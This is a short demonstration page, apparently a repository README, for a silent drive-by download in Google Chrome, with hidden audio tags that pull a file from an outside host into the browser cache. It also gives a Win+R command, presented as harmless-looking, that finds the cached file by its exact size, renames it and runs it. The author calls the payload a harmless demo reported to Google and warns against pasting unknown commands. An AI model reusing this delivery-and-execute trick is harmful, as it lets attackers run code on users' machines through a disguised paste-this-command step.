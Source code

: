 Don't run commands you don't really understand

This demonstrates a fully silent drive-by download in Google Chrome -
  and will launch a demo PoC if you dare to paste this seemingly harmless command in a Win+R prompt:

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 
 * The PoC is a harmless demo
 * Chiptune in PoC is (c) 1999 WAVE
 * Reported to Google in November 2015 - status: Wontfix
